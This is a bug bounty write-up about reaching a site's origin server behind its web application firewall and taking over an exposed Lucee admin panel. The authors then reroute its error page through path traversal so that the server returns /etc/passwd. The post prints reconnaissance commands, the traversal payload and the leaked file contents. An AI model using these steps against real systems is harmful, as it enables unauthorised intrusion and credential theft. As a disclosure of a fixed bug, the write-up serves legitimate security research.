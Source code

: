 ```yaml
---
layout: post
title: "Bug Bounty - Information Disclosure through error message + WAF Bypass led to Local File Inclusion"
---
```

## Bug Bounty - Information Disclosure through error message + WAF Bypass led to Local File Inclusion

# Summary:
This is a writeup about a critical bug that me and [0xcela](https://hackerone.com/cela) found while poking around. This bug is undisclosed due to private program so I'm going to refer the company as **redacted.com**
&nbsp;

A vulnerable directory was found which led to an information disclosure through error message. After trying different types of attacks we were blocked by Incapsula WAF, so we managed to find the origin ip to further continue our research where we found different endpoints which led to the same information disclosure through error message.


# Exploitation:
While bruteforcing hidden directories and looking through waybackurls, we found a path **/cfapps/** which output the error as shown in the picture below.
&nbsp;
![full path disclosure]({{ site.baseurl }}/assets/images/image2.png){:.container}

&nbsp;

We also found some endpoints that accepted parameters but soon as we tried something suspicious we were blocked and we couldn't access that site anymore. So we decided to look through censys.io search engine without any specific filter only "redacted.com" and we found the origin ip.

To prove that we found the origin ip, we could compare the body and site headers.
&nbsp;
{% highlight bash %}
> $ nmap -p80,443 redacted.com
80/tcp open http Incapsula CDN httpd
443/tcp open ssl/http Incapsula CDN http

> $ nmap -p80,443 -sV IP
PORT STATE SERVICE VERSION
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
443/tcp open ssl/http Apache Tomcat/Coyote JSP engine 1.1

> $ curl https://IP/cfapps/ -k -v
<!doctype html>
<title>External Apps</title>
..[SNIP]..
<div class="center padding">
{ts '2019-05-28 13:06:26'}
</div>
..[SNIP]..
</html>

> $ curl https://redacted.com/cfapps/ -v
<!doctype html>
<title>External Apps</title>
..[SNIP]..
<div class="center padding">
{ts '2019-05-28 13:07:53'}
</div>
..[SNIP]..
</html>
{% endhighlight %}
&nbsp;

We decided to report this because we thought that it would count as valid bug as it was exposing full paths but..
&nbsp;
![h1 reply]({{ site.baseurl }}/assets/images/image3.png){:.container}
&nbsp;
We continued our research to come up with an attack vector. We managed to log in into Lucee framework then abused Error Mapping function. What this function does is that when an error occurs, it redirects to a default error which is stored in a local file, in our case we could change it to read sensitive files.
&nbsp;
After knowing that it uses Lucee framework, we browsed to https://IP/lucee/
&nbsp;

Lucee has a public admin interface by default which you can find the path on view-source of /lucee/ and is located on https://IP/lucee/lucee/admin/server.cfm
&nbsp;

This prompts for a new password, which we set to admin321. We could log out and log in again on **https://IP/lucee/lucee/admin/web.cfm**. Even after we set a new password we could still change it by browsing to /server.cfm
&nbsp;
Browsing to /lucee/lucee/admin/web.cfm?action=server.error we could change the function when the application receives an 404 or 500 error, we changed the 500 error from default value (/lucee/templates/error/error.cfm) to **../../../../../../../../../../etc/passwd.**
&nbsp;
![Lucee Interface]({{ site.baseurl }}/assets/images/image4.png){:.container}
&nbsp;

**To execute the error.cfm, we made a request on a page that returned error 500**
```bash
curl -X GET \
https://IP/lucee/lucee/admin/web.cfm?action=debugging.logs&action2=detail&id=DCF806E56E1192D43C0A8B64EC573BC6
```
&nbsp;
**Response**:
HTTP/1.1 500 Internal Server Error
Content-Type: text/html;charset=UTF-8

> root:x:0:0:root:/root:/bin/bash
> bin:x:1:1:bin:/bin:/sbin/nologin
> daemon:x:2:2:daemon:/sbin:/sbin/nologin
> adm:x:3:4:adm:/var/adm:/sbin/nologin
> lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
> sync:x:5:0:sync:/sbin:/bin/sync
> shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
> halt:x:7:0:halt:/sbin:/sbin/halt
> mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
> operator:x:11:0:operator:/root:/sbin/nologin
> games:x:12:100:games:/usr/games:/sbin/nologin
> ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
> nobody:x:99:99:Nobody:/:/sbin/nologin
> systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
> dbus:x:81:81:System message bus:/:/sbin/nologin
> polkitd:x:999:997:User for polkitd:/:/sbin/nologin
> chrony:x:998:996::/var/lib/chrony:/sbin/nologin
> sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
> **raladmin:x:1000:1000::/home/raladmin:/bin/bash**
> sssd:x:997:994:User for sssd:/:/sbin/nologin
> nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
> tcpdump:x:72:72::/:/sbin/nologin
> tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
> setroubleshoot:x:996:992::/var/lib/setroubleshoot:/sbin/nologin
> **webuser:x:1001:1001:webuser:/home/webuser:/bin/bash**
> postfix:x:89:89::/var/spool/postfix:/sbin/nologin
>{: style="color: red"}

&nbsp;
![passwd]({{ site.baseurl }}/assets/images/image5.png){:.container}
&nbsp;
We also managed to read ../../../../../../../../../../../../usr/share/tomcat/conf/server.xml
&nbsp;
There was some sensitive info located in this file, including web-ldap and azure cloud postgresql passwords

# Note:
- Security Team decided to rate this bug as critical
- Bounty awarded
- Vulnerability fixed